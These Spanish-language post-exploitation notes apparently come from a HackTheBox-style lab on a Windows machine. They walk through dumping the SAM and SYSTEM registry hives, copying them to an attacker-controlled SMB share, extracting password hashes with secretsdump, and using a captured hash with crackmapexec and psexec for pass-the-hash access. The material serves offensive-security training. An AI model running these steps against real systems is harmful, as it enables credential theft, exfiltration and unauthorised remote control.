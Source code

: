 ## Windows Persistence techniques  

Nos movemos a /Windows/Temp y creamos la carpeta PostExploitation

Ahí vamos a crear una copia de system y sam con:
```python
reg save HKLM\system system.backup
reg save HKLM\sam sam.backup
```

Ahora tenemos 2 archivos: sam.backup y system.backup

Ahora nos lo vamos a trasferir a nuestro equipo y lo haremos de nuevo con impaccket-smbserver
Si no le tenemos inicializado lo volvenos a reiniciar:
```python
sudo impacket-smbserver smbFolder $(pwd) -smb2support
```

Y en la maquina windows escribimos:
```python
copy sam.backup \\10.10.14.49\smbFolder\sam
copy system.backup \\10.10.14.49\smbFolder\system
```

Ahora ya los tenemos en nuestro equipo. Con impacket-secretsdump podemos sacar informacion de ellos.
```python
impacket-secretsdump -sam sam -system system LOCAL
```

Con esto vamos a obtener los HASHES de los usuarios del equipo victima.

![Desktop View](/assets/img/Blue/Pasted image 20221102174444.png){: width="972" height="589" }
Como estamos en windows y tenemos el hash no necesitamos saber la contraseña. POr ejemplo con crackmapexec podemos averiguar cosas:

```python
crackmapexec smb 10.129.9.50 -u 'Administrator' -H 'cdf51b162460b7d5bc898f493751a0cc'
```


![Desktop View](/assets/img/Blue/Pasted image 20221102174636.png){: width="972" height="589" }

Si añadimos --lsa podemos dumpear contraseñas en texto claro si las hay:
```python
crackmapexec smb 10.129.9.50 -u 'Administrator' -H 'cdf51b162460b7d5bc898f493751a0cc' --lsa
```


Con esto podriamos volver a conectarnos remotamente al ordenador con impacket-psexec:
```python
impacket-psexec WORKGROUP/Administrator@10.129.9.50 -hashes :cdf51b162460b7d5bc898f493751a0cc
```

Con esto hacemos pass the hash


## Persistence_Windows_Defender_Evasion_Playing_with_Ebowla
